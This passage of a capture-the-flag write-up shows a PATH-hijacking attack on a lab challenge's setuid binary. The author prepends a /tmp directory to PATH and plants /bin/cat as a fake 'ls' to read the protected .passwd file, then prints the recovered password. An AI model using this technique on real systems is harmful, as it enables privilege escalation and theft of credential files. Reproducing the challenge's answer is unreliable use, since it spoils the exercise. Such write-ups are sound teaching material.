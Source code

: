 We successfully created a directory inside `/tmp` and, as we can see, we have write permissions on it. Now, we want to add this new directory to our path variable:

```bash
app-script-ch11@challenge02:/tmp/cecil-daemon$ export PATH=/tmp/cecil-daemon:$PATH
app-script-ch11@challenge02:/tmp/cecil-daemon$ echo $PATH
/tmp/cecil-daemon:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/
```

Amazing! Our new directory `/tmp/cecil-daemon` is now under the $PATH variable, and it is listed before `/bin`. Now, we need to create a binary called `ls` that instead of having the `ls` command, it has the `cat` command. Let's try it out!

## [](#mindset-step4)Step 4 - Solving!

We need to check where the `cat` command is being executed from. This can be achieved by running:

```bash
app-script-ch11@challenge02:/tmp/cecil-daemon$ which cat
/bin/cat
```

My first attempt to craft a malicious `ls` is by simply copying the `cat` binary from `/bin` to `/tmp/cecil-daemon` under the name of `ls`. This should force the `ls` to always run the `cat` command instead.

```bash
app-script-ch11@challenge02:/tmp/cecil-daemon$ cp /bin/cat ./ls 
```

As a test, we can run our malicious `ls` to read a file's contents:

```bash
app-script-ch11@challenge02:/tmp/cecil-daemon$ echo "test" > test.txt
app-script-ch11@challenge02:/tmp/cecil-daemon$ ./ls test.txt
test
```

It seems to be working! Now, let's go back to our home directory and run the binary. If everything was done correctly, we will be able to see the contents of `.passwd`:

```bash
app-script-ch11@challenge02:/tmp/cecil-daemon$ cd - 
/challenge/app-script/ch11
app-script-ch11@challenge02:~$ ./ch11
!oPe96a/.s8d5
```

We did it! Enjoy the feeling of owning and tricking a system!

# [](#conclusions)Conclusion

In this CTF, we learned a bit more about system misconfigurations and misuse of C functions. We started by understanding the core concepts used by the challenge script, then we tackled the problem by understanding why these were a problem in the CTF context. 
